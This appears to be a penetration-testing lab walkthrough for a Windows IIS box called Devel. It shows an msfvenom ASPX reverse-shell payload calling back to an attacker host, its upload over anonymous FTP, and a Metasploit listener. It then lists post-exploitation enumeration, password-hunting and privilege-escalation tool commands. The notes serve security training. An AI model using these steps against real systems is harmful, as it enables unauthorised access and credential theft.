 ## Gaining a Foothold

### Devel (Using MSF conditions)  

**Initial Enum / RevShell Payload:**  
Nmap scan > iis server and ftp anonymous login identified > login ftp server and `PUT` test file sucessful > use msfvenom to generate a reverse tcp shell in aspx (since target is hosting iis)

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.05 LPORT=4444 -f aspx -o reverse.aspx`  

![image](https://github.com/user-attachments/assets/3db1aa08-39b4-45d2-afbe-01710f16b7cd)

**Listener with msfconsole multi handler:**  
msfconsole > use exploit/multi/handler > options > set payload windows/meterpreter/reverse_tcp > set LHOST ATTACKERIP > set LPORT 4444 > run

**Upload payload to iis:**  
ftp anonyomous login > `PUT reverse.aspx` > load http://victim/reverse.aspx (to trigger meterpreter reverse shell connection)  

---

#### System Enumeration  
now that we are a low level user, we repeat the cycle of information gathering, scanning enumeration and further exploitation.  

meterpreter: shell  
`systeminfo`  
`hostname`  
patching checks (windows management instrumentation command line + quick fix engineering) : `wmic qfe` or `wmic qfe get Caption,Description,HotFixID,InstalledOn` for a cleaner view  
driver enumeration: `wmic logicaldisk get caption,description,providername`

#### User Enumeration  
check hostname and user logged in`whoami`  
check current priviliges `whoami /priv`  
groups you belong to `whoami /groups`
users on the host `net user`  
enum found users `net user exampleuser`  
list all local group memberships `net localgroup`  
list all users in the administrator group `net localgroup administrators`  

#### Network Enumeration  
`ipconfig`  
`ipconfig /all`  
`arp -a`  
(check where else the host is connecting to) `route print`  
(where is the host connecting to and what ports are open, if new connections / ports are found only internally and not frem an external scan it could provide ideas such as the potential port forward,) `netstat -ano`  

#### Password Hunting  
(finds string of 'password' in the listed file types WITHIN the current directory) `findstr /si password *.txt *.ini *.config *.xml`  
<https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md>

#### Firewalls / AV Enumeration  
service check for windows defender `sc query windefend`  
service check for all services running on host `sc queryex type= service`  

may not work - check state of firewall `netsh advfirewall firewall dump`  
newer command - check state of firewall `netsh firewall show state`  
checks for firewall configurations for spcific ports / things that are open / configuration that may stand out - `netsh firewall show config`  

---

### Automated Tools

#### Executables:  
* winPEAS.exe
* Seatbelt.exe
* Watson.exe
* SharpUp.exe

#### PowerShell:  
* Sherlock.ps1  
* PowerUp.ps1  
* jaws-enum.ps1  

#### Other:  
* (ran from attacker machine by providing system info of target machine) windows-exploit-suggester.py  
* (Metasploit) Exploit Suggester  






